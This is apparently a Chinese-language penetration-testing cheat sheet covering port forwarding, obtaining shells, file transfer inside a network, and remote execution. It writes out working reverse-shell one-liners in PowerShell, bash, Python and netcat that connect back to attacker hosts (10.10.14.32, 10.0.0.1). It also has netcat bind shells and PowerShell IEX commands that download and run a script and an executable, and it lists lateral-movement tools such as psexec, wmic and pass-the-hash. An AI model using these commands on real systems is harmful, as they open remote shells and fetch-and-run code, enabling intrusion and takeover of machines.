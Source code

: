 综合技巧
========================================

端口转发
----------------------------------------
- windows
    - lcx
    - netsh
- linux
    - portmap
    - iptables
- socket代理
    - Win: xsocks
    - Linux: proxychains
- 基于http的转发与socket代理(低权限下的渗透)
    - 端口转发: tunna
    - socks代理: reGeorg
- ssh通道
    - 端口转发
    - socks

获取shell
----------------------------------------
- 常规shell反弹

windows下:
::

    $client = New-Object System.Net.Sockets.TCPClient("10.10.14.32",5711);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

Linux下:

::

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

- 突破防火墙的icmp_shell反弹
- 正向shell

::

    nc -e /bin/sh -lp 1234
    nc.exe -e cmd.exe -lp 1234

内网文件传输
----------------------------------------
- windows下文件传输
    - powershell
        - ``IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.32:1633/shell.sp1")``
        - ``IEX (New-Object Net.WebClient).DownloadFile("http://10.10.14.32:1633/1633.exe", "C:\users\sql_svc\Desktop\1633.exe")``
    - vbs脚本文件
    - bitsadmin
    - 文件共享
    - 使用telnet接收数据
    - hta
- linux下文件传输
    - python
    - wget
    - tar + ssh
    - 利用dns传输数据
- 文件编译
    - powershell将exe转为txt，再txt转为exe

远程连接 && 执行程序
----------------------------------------
- at&schtasks
- psexec
- wmic
- wmiexec.vbs
- smbexec
- powershell remoting
- SC创建服务执行
- schtasks
- SMB+MOF || DLL Hijacks
- PTH + compmgmt.msc
